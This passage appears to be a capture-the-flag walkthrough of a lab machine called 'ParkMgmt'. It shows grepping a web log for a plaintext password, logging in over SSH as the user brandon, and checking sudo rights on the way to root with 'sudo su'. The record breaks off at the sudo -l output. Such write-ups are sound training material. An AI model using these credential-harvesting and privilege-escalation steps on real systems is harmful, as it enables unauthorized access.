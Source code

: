   

When we unzip the file, there is a single document `cmslog`. It contains many log entries, but when we grep for `password` we find credentials:

  

```

┌──(root㉿kali)-[/home/kali/Documents/UGC/ParkMgmt]

└─# cat cmslog | grep "password"

192.168.0.42 - - [01/May/2024:14:03:15 +0000] "POST /ranger/login HTTP/1.1" 200 - "Mozilla/5.0" "username=Brandon&password=ILoveParkandRecreation2024"

  

```

  

We ssh into the machine successfully as the user brandon. When we check `sudo -l` we find brandon is in the sudoers group. We simply `sudo su` and obtain `root` access.

  

```

┌──(root㉿kali)-[/home/kali/Documents/UGC]

└─# ssh brandon@192.168.174.140

brandon@192.168.174.140's password:

Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-177-generic x86_64)

  

$ sudo -L

sudo: invalid option -- 'L'

usage: sudo -h | -K | -k | -V

usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]

usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user] [command]

usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] [VAR=value] [-i|-s]

            [<command>]

usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...

$ sudo -l

[sudo] password for brandon:

Matching Defaults entries for brandon on parkmanagement:

    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  

User brandon may run the following commands on parkmanagement:
```